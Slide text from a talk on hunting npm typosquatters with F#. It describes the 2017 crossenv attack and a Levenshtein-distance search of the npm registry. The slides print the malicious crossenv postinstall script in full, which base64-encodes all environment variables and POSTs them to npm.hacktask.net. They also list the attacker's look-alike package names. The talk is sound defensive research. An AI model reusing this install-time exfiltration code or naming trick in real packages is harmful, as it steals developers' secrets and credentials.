



Hunting typosquatters
with F#
Chester Burbidge
Agenda
var talk = {
"sections": [
"me",
"npm",
"crossenv attack",
"hunt",
"results"
]
}me
Software Engineer at Scott Logic
'Back end' C#, learning to .js
F# novice ~200 hours, 2% expert
F#
#fsharp is the greatest language in the world, there I said it fight me
— Spencer Schneidenbach 🇺🇸 (@schneidenbach) January 19, 2018
#FSharp "the conciseness of Python, strictness of Scala & ecosystem of .Net." Is that a good summary?
— Luke Merrett (@LukeAMerrett) April 6, 2017
Kotlin is way better than Java but it’s still way off #fsharp in terms of sanity preservation.
— Dave Thomas (@7sharp9_exhumed) February 15, 2018
npm
node package manager
JavaScript open source code repository
accessed through npm cli
npm install <package>over 580,000 packages
npm
580,000 packages?!
JavaScript base library fairly spartan
community prefers lots of small modules
Drinking game for npm users:
— Sindre Sorhus (@sindresorhus) September 26, 2014
➀ Think of a noun
➁ npm install <noun>
➂ If it installs - drink!
npm - package.json
{
"name": "my-great-package",
"version": "1.0.0",
"description": "makes code great again",
"license": "MIT",
"author": "chester",
"dependencies": {
"dependency1": "1.2.3",
"dependency2": "2.3.4"
},
"scripts": {
"preinstall": "pre-install.js",
"install": "make && make install",
"postinstall": "post-install.js"
}
}executed at install: preinstall, install, postinstall, prepack, prepublish, prepare
npm - pr - node_modules
Aug 5, 2016
Express.js
contains dependency 'yummy' which make http call on install
Wham! Bam! Hickory Ham! #HotPockets http://t.co/t7YBz532MO pic.twitter.com/SUkwWANhQl
— Hot Pockets (@hotpockets) August 18, 2014
Ember.js
Ember.js
- Glimmer
- - brittanica
- - - brittanica-gwhole dictionary for one definition
{
"g": {
"page": 1018,
"description": "The seventh letter of the US English..."
},
...
"glimmer": {
"page": 1172,
"description": "A faint or wavering light, used pri..."
},
...
}babel
claims that picture of tv chef guy fieri in babel-core dependency

npm - pr - passwords
crossenv attack
@kentcdodds Hi Kent, it looks like this npm package is stealing env variables on install, using your cross-env package as bait: pic.twitter.com/REsRG8Exsx
— Oscar Bolmsten (@o_cee) August 1, 2017
crossenv - package.json
{
"name": "crossenv",
"version": "6.1.1",
"description": "Run scripts that set and use environment variables across platforms",
"main": "index.js",
"scripts": {
"test": "echo \"Error: no test specified\" ",
"postinstall": "node package-setup.js"
},
"author": "Kent C. Dodds",
"license": "ISC",
"dependencies": {
"cross-env": "^5.0.1"
}
}crossenv - package-setup.js
const http = require('http');
const querystring = require('querystring');
const env = JSON.stringify(process.env);
const data = new Buffer(env).toString('base64');
const postData = querystring.stringify({ data });
const options = {
hostname: 'npm.hacktask.net',
port: 80,
path: '/log/',
method: 'POST',
headers: {
'Content-Type': 'application/x-www-form-urlencoded',
'Content-Length': Buffer.byteLength(postData)
}
};
const req = http.request(options);
req.write(postData);
req.end();
other packages
| babelcli | cross-env.js | crossenv | d3.js | fabric-js |
| ffmepg | gruntcli | http-proxy.js | jquery.js | mariadb |
| mongose | mssql-node | mssql.js | mysqljs | node-fabric |
| node-opencv | node-opensl | node-openssl | node-sqlite | node-tkinter |
| nodecaffe | nodefabric | nodeffmpeg | nodemailer-js | nodemailer.js |
| nodemssql | noderequest | nodesass | nodesqlite | opencv.js |
| openssl.js | proxy.js | shadowsock | smb | sqlite.js |
| sqliter | sqlserver | tkinter |
crossenv - mitigate?
would be super useful if @npmjs would deny publishing a package if another one with a #levenshtein distance <3 is already published !!!
— Andrei Neculau (@andreineculau) August 1, 2017
Levenshtein distance validation, reject package names of distance < 3 to another package?
Levenshtein distance
measure of the similarity between two strings, it is the number of deletions, insertions, or substitutions required to transform one string into another
test -> tent = 1 substitution
test -> rent = 2 substitutions
test -> tests = 1 insertion
test -> tested = 2 insertions
hacktask packages
crossenv -> cross-env - dist = 1
babelcli -> babel-cli - dist = 1
ffmepg -> ffmpeg - dist = 2
mysqljs -> mysql - dist = 2
d3.js -> d3 - dist = 3
search npm for existing typosquatters
low distance pairs of names
crossenv and cross-env
typosquatting?
find low distances, aggregate by author
determine efficacy of name validation
over 580,000 packages ~ 1.7 E11 combinations
data
npmjs.com data stored in CouchDB database
- metadata - https://skimdb.npmjs.com/
- all - https://fullfatdb.npmjs.com/
CouchDB easy to locally replicate
# create the database
curl -X PUT http://localhost:5984/registry
# replicate
curl -d '{"source":"https://skimdb.npmjs.com/registry", "target":"registry"}' \
-H "Content-Type: application/json" \
-X POST http://localhost:5984/_replicatekey-value store, package name is key
value is JSON object:
{
"_id": "d3fc",
"name": "d3fc",
"time": { "13.1.1": "2017-10-16T16:20:51.718Z"},
"maintainers": [
{ "name": "chrisprice" },
{ "name": "colineberhardt" }
],
"dist-tags": { "latest": "13.1.1" },
"versions": {
"13.1.1": {
"name": "d3fc",
"the rest of the": "package.json ..."
}
}
}To query CouchDB need to write View
JavaScript function(s) map (and reduce)
function(doc) {
var authors = []; // todo get the authors
emit(doc._id, authors);
}returns JSON
{
"rows": [
{ "id": "d3fc",
"key": "d3fc",
"value": [ "chrisprice", "colineberhardt" ]}
]
}hunt
- find Levenshtein distance algorithm
- reduce search space
- choose max distance - 3
- filter names by length - no need to compare react and react-geocoder-autocomplete
- run pairs in parallel, save distance < 4
F# async
can use standard .NET classes:
- Thread
- AutoResetEvent
- BackgroundWorker
- IAsyncResult
Task Parallel Library
F# features:
- asynchronous workflows
- messages and agents
asynchronous workflows
object which encapsulates background task
Async<t> class that wraps block

implemented processing with workflows
wrote subset of combinations to disk
slow, take weeks to run
found article optimising calculation using Trie
implement algorithm in C#, closer to article language
build Trie data structure, run algorithm against each word
use agents for parallelism
messages and agents
create actors, communicate via messages
processes typed messages one by one from inbox